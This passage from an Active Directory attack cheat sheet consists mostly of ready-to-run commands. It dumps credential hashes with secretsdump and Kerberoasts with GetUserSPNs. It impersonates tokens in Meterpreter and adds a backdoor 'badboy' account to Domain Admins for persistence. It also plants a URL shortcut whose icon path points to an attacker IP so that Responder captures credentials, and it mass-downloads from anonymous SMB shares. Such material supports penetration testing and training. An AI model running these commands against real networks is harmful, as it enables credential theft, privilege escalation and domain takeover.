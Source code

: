 ```bash
secretsdump.py <user>:@<IP> -hashes <hash>
```
# Ldapdomaindump
```bash
sudo ldapdomaindump ldaps://<IP> -u '<DOMAIN>/<USER>' -p <password>
```


# Kerberosting
- Using **GetUserSPNs**
```bash
sudo GetUserSPNs.py <domain>/<user>:<password> -dc-ip <IP> -request
```
# Token Impersonation
- Using **Metasploit**
```bash
meterpreter> load incognito
meterpreter> list tokens -u
meterpreter> impersonate_token <token name>
```
- Next for persistence, we can add new users and run secretsdump.
```bash
meterpreter> net user /add badboy password123 /DOMAIN
meterpreter> net group "Domain Admins" badboy /ADD /DOMAIN


secretsdump.py <Domain>/badboy:'password123'@<IP>
```
# URL File Attacks
- Make an internet shortcut file (Example: "@test.url")
- Put the file into the shared directory on SMB
```text
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\<IP>\%USERNAME%.icon
IconIndex=1
```
- Set up the responder.
```bash
responder -I eth0 -v
```
When the user moves to the shared directory credentials data intercepts through the responder.

# GPP Attacks
- Using Metasploit.
```bash
use auxiliary/scanner/smb/smb_enum_gpp
```
- Using SMBclient, Check for anonymous login allowed
```bash
smbclient -L \\\\<IP>\\

smbclient \\\\<IP>\\<anonymous login allowed share>
prompt off
recurse on
mget *
```
- Check for **Group.xml** file